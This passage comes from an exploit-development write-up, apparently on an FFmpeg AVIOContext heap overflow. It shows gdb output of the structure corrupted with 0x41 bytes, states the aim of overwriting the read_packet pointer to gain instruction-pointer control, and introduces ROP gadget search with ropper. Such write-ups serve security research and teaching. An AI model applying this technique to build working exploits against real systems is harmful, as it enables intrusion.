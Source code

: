 We can observe the `AVIOContext` object to be corrupted just before it gets
written into by using the printing functions of `gdb`.

```shell
gdb-peda$ p *(AVIOContext*)(0x1de6b80+0x8060)
$2 = {
  av_class = 0x1072860 <ff_avio_class>,
  buffer = 0x1de6b80 "",
  buffer_size = 0x8000,
  buf_ptr = 0x1de6b80 "",
  buf_end = 0x1de6b80 "",
  opaque = 0x1de69c0,
  read_packet = 0x5c4050 <io_read_packet>,
  write_packet = 0x5c4040 <io_write_packet>,
  seek = 0x5c4030 <io_seek>,
  pos = 0x0,
  must_flush = 0x0,
  eof_reached = 0x0,
  ...
}
gdb-peda$
```

After the overflow, we can observe that `AVIOContext` object has been corrupted.

```shell
gdb-peda$ p *(AVIOContext*)(0x1de6b80+0x8060)
$12 = {
  av_class = 0x4141414141414141,
  buffer = 0x4141414141414141,
  buffer_size = 0x41414141,
  buf_ptr = 0x4141414141414141,
  buf_end = 0x1de6b80 'A' <repeats 200 times>...,
  opaque = 0x1de69c0,
  read_packet = 0x5c4050 <io_read_packet>,
  write_packet = 0x5c4040 <io_write_packet>,
  seek = 0x5c4030 <io_seek>,
  pos = 0x0,
  must_flush = 0x0,
  eof_reached = 0x0,
  ...
}
```

The goal is to overwrite the `read_packet` which gives the RIP control.

### Searching for ROP Gadgets

Before we begin writing the payload, we need some Return Oriented Programming
(ROP) gadgets. We can find these gadgets by using `ropper`. `ropper` is a tool
to automate ROP gadget search. In certain conditions, it can even be used to
generate full ROP chains to meet certain objectives such as `execve` or
`mprotect` chains.

